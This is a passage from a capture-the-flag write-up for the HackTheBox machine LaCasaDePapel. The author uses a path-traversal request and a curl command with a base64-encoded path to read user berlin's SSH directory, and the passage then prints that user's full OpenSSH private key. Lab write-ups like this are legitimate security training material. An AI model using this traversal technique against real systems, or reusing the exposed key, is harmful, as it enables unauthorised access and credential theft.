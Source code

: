 Let’s combine everything together, since we are probably user berlin (as we are in his home dir), let’s see his .ssh dir

```bash
https://10.10.10.131/?path=../.ssh
```

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%2015.png)

We should not use burp here as it crashes the box. Let’s just use curl:

```bash
curl -k https://10.10.10.131/file/$(echo -n "../.ssh/id_rsa" | base64)

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

```
